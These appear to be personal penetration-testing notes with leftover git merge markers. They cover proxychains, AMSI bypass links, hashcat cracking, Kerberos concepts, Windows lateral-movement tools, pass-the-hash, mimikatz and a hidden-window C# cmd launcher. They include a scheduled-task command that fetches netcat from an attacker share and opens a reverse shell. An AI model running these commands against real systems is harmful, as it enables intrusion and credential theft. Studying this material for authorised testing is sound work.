 using socks5

```
nano /etc/proxychains.conf 

sock5 ip port user password

proxychains firefox

```

# AMSI bypass

https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/

 Antimalware Scan Interface (AMSI) standard that allows a developer to integrate malware defense in his application. AMSI allows an application to interact with any anti-virus installed on the system and prevent dynamic, script-based malwares from executing

amsi byoass with a single command:
https://news.sophos.com/en-us/2021/06/02/amsi-bypasses-remain-tricks-of-the-malware-trade/


# kerberoasting 

cracking hashes offline using hashcat 

b4b9b02e6f09a9bd760f388b67351e2b

hashcat hashes.txt -m 1000 -a3 ?1?1?1
=======
# looking at ad enumeration

even without an ad user cann connect to a workgroup
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

## kerberoast attacks

Kerberos
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication

<<<<<<< HEAD
Firstly, Kerberos is an authentication protocol, not authorization. In other words, it allows to identify each user, who provides a secret password, however, it does not validates to which resources or services can this user access.

Agents
Several agents work together to provide authentication in Kerberos. These are the following:
Client or user who wants to access to the service.
AP (Application Server) which offers the service required by the user.
KDC (Key Distribution Center), the main service of Kerberos, responsible of issuing the tickets, installed on the DC (Domain Controller). It is supported by the AS (Authentication Service), which issues the TGTs.

Encryption keys
There are several structures handled by Kerberos, as tickets. Many of those structures are encrypted or signed in order to prevent being tampered by third parties. These keys are the following:
KDC or krbtgt key which is derivate from krbtgt account NTLM hash.
User key which is derivate from user NTLM hash.
Service key which is derivate from the NTLM hash of service owner, which can be a user or computer account.
Session key which is negotiated between the user and KDC.
Service session key to be use between user and service.

Tickets
The main structures handled by Kerberos are the tickets. These tickets are delivered to the users in order to be used by them to perform several actions in the Kerberos realm. There are 2 types:
The TGS (Ticket Granting Service) is the ticket which user can use to authenticate against a service. It is encrypted with the service key.
The TGT (Ticket Granting Ticket) is the ticket presented to the KDC to request for TGSs. It is encrypted with the KDC key.


# lateral movement

https://hackmag.com/security/lateral-guide/

approach

sieze control over the domain controllers
reach to isolated critical network segments
search for critical information stored in a certain PC

impacket tools
MSRPC - smb via named pipes
psexec.exe - no av risk, legitimate
psexec.py - from impacket or services.py for manual entering of commands
winexe
smbexec.py - just for msrp.py
atexec.py/ at.exe this helps in remote schedule tasks
`at.exe \\target 13:37 "cmd /c copy \\attacker\a\nc.exe && nc -e \windows\system32\cmd.exe attacker 8888"`
reg.exe - writing to registry remotely
dcomexec.py - wmiexec
wmi
sc.exe
winrm - evilwinrm
winrs.exe and powershell
xfreerdp
GP

### Pass the hash

without cracking the password we can get:

![](2022-08-23-06-34-31.png)

kali linux has many pth - pass the hash tools


# dumping credentials with mimikatz

https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/

windows defender credential Guard prevents access to LSASS



![](2022-08-23-06-25-06.png)



# proxychain
open `/etc/proxychains.conf`
add `socks5 ip port username password` to the end
run with `proxychains ping whatever`

or using foxy proxy to set up a proxy

# C# execution of commands

```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace console_csharp
{
    class Program
    {
        static void Main(string[] args)
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
            startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "";
            process.StartInfo = startInfo;
            process.Start();
        }
    }
}
```




